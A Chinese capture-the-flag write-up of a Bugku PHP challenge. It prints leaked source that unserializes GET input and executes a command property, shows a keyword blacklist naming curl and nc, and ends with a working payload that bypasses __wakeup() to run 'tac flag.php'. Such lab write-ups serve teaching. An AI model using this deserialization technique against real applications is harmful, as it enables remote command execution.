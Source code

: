 来源:bugku

 

访问页面。空白。查看源代码。发现以下信息



<!-- YmFja3Vwcw== -->

 

解密，得到backups提示。

 

dirsearch扫描目录

![image-20210714095752901](image-20210714095752901.png)

 

访问bak文件，下载。得到以下

 ```php
 <?php
 
 header("Content-Type: text/html;charset=utf-8");
 
 error_reporting(0);
 
 echo "<!-- YmFja3Vwcw== -->";
 
 class ctf
 
 {
 
   protected $username = 'hack';
 
   protected $cmd = 'NULL';
 
   public function __construct($username,$cmd)
 
   {
 
 ​    $this->username = $username;
 
 ​    $this->cmd = $cmd;
 
   }
 
   function __wakeup()
 
   {
 
 ​    $this->username = 'guest';
 
   }
 
   function __destruct()
 
   {
 
 ​    if(preg_match("/cat|more|tail|less|head|curl|nc|strings|sort|echo/i", $this->cmd))
 
 ​    {
 
 ​      exit('</br>flag能让你这么容易拿到吗？<br>');
 
 ​    }
 
 ​    if ($this->username === 'admin')
 
 ​    {
 
 ​      // echo "<br>right!<br>";
 
 ​      $a = `$this->cmd`;
 
 ​      var_dump($a);
 
 ​    }else
 
 ​    {
 
 ​      echo "</br>给你个安慰奖吧，hhh！</br>";
 
 ​      die();
 
 ​    }
 
   }
 
 }
 
   $select = $_GET['code'];
 
   $res=unserialize(@$select);
 
 ?> 
 ```

从可控制的传参进行跟踪。

$_GET['code'] -> unserialize -> __wakeup() -> __destruct() -> preg_match() -> if username === admin -> var_dump($cmd)

 

而__wakeup()中会给username赋值guest。会影响后面判断(if username === admin)。所以利用反序列化特性。绕过__wakeup()

- 若在序列化后的字符串中，改动类对象的数量，令其数量大于类对象实际含有的元素个数。即可绕过__wakeup()执行

 

preg_match()过滤了众多函数。没有过滤ls函数。查看发现有flag.php。过滤了cat，但是没有过滤tac。查看可以发现flag.php里面的内容

 

最后对code传参

?code=O:3:"ctf":3:{s:11:"%00*%00username";s:5:"admin";s:6:"%00*%00cmd";s:12:"tac%20flag.php"

- 注意protected声明的对象，序列化时要在对象名前加上 /0*/0 ，在url编码中, /0 即为 %00

 

![image-20210714095824044](image-20210714095824044.png)

 